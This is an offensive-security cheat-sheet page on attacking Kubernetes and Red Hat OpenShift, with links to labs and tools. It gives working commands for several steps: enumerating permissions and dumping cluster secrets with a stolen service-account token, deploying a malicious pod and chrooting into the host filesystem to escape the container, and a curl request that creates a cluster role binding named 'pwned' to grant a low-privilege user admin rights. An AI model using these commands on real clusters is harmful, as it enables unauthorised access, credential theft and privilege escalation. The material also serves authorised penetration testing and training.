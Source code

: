 # Containerization & Orchestration




## Kubernetes

- [https://book.hacktricks.xyz/cloud-security/pentesting-kubernetes](https://book.hacktricks.xyz/cloud-security/pentesting-kubernetes)



### kubectl

- [https://kubernetes.io/ru/docs/tasks/tools/install-kubectl/](https://kubernetes.io/ru/docs/tasks/tools/install-kubectl/)

Get `kubectl`:

```bash
curl -LO https://storage.googleapis.com/kubernetes-release/release/`curl -s https://storage.googleapis.com/kubernetes-release/release/stable.txt`/bin/linux/amd64/kubectl
chmod +x ./kubectl
sudo mv ./kubectl /usr/local/bin/kubectl
kubectl version --client
```

Basic authenticated enumeration (the service account token from `/run/secrets/kubernetes.io/serviceaccount/token` can be parsed at [jwt.io](https://jwt.io/)):

```
$ kubectl auth can-i --list
$ kubectl get namespaces
$ kubectl auth can-i --list -n <NAMESPACE>
$ kubectl get pods -n <NAMESPACE>
$ kubectl describe pods <POD> -n <NAMESPACE>
$ kubectl get secrets -n <NAMESPACE>
$ kubectl describe secrets -n <NAMESPACE>
$ kubectl --token=$(cat token) auth can-i create pods
```



### Malicious Pods

- [https://github.com/BishopFox/badPods](https://github.com/BishopFox/badPods)

Deploy a malicious pod:

```
$ kubectl apply -f evilpod.yml
$ kubectl exec --stdin --tty -it evilpod -- chroot /hostfs bash
```



### Training Labs

- [https://www.bustakube.com/](https://www.bustakube.com/)
- [https://0xdf.gitlab.io/2021/09/04/htb-unobtainium.html](https://0xdf.gitlab.io/2021/09/04/htb-unobtainium.html)

{% embed url="https://youtu.be/UgHt_Y3vdNg" %}




## Red Hat OpenShift

- [https://github.com/cherkavi/cheat-sheet/blob/master/openshift.md](https://github.com/cherkavi/cheat-sheet/blob/master/openshift.md)

Grant a low-priv user admin's privileges across the cluster [via REST API](https://access.redhat.com/solutions/5492301):

```json
curl -k -X POST 'https://cluster.megacorp.local:8443/apis/rbac.authorization.k8s.io/v1/clusterrolebindings' \
  -H 'Authorization: Bearer <TOKEN>'  \
  -H 'Accept: application/json'       \
  -H 'Content-Type: application/json' \
  -d'
{
  "kind": "ClusterRoleBinding",
  "apiVersion": "rbac.authorization.k8s.io/v1",
  "metadata": {
    "name": "pwned",
    "creationTimestamp": null
  },
  "subjects": [
    {
      "kind": "User",
      "apiGroup": "rbac.authorization.k8s.io",
      "name": "snovvcrash@megacorp.local"
    }
  ],
  "roleRef": {
    "apiGroup": "rbac.authorization.k8s.io",
    "kind": "ClusterRole",
    "name": "admin"
  }
}'
```

